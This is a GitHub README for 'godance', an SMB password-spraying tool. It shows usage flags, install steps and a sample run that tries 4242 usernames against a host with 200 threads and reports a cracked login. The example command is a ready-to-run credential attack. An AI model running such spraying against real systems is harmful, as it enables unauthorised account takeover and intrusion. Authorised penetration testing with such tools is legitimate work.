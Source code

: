 ```
  ___ ____  ___/ /__ ____  _______    
 / _ '/ _ \/ _  / _ '/ _ \/ __/ -_)   
 \_, /\___/\_,_/\_,_/_//_/\__/\__/    
/___/
```


# godance - A password spraying SMB bruteforcer

SMB password sprayer

```
$ godance -h 192.168.75.173 -u users.txt -w passwords.txt -d WORKGROUP -t 200   
 
  ___ ____  ___/ /__ ____  _______    
 / _ '/ _ \/ _  / _ '/ _ \/ __/ -_)   
 \_, /\___/\_,_/\_,_/_//_/\__/\__/    
/___/

-----------------------------------------------------
 [*] Number of usernames: 4242
 [*] Number of passwords: 4
 [*] Test cases: 16968
 [*] Number of threads: 200
-----------------------------------------------------
 [*] In hacker voice *I'm in* // Username: pystyy // Password: vetaa

```

## Usage


```
Usage of godance:
  -d string
        Domain (default "WORKGROUP")
  -h string
        Target host
  -p int
        Target port (default 445)
  -s string
        Sleep time in seconds (per thread)
  -t int
        Number of threads (default 10)
  -u string
        User wordlist
  -v    Debug
  -w string
        Password list
```

## Installation

 - [Download](https://github.com/joohoi/godance/releases/latest) a prebuilt binary from [releases page](https://github.com/joohoi/godance/releases/latest), unpack and run!
 - If you have go compiler installed: `go get github.com/joohoi/godance`

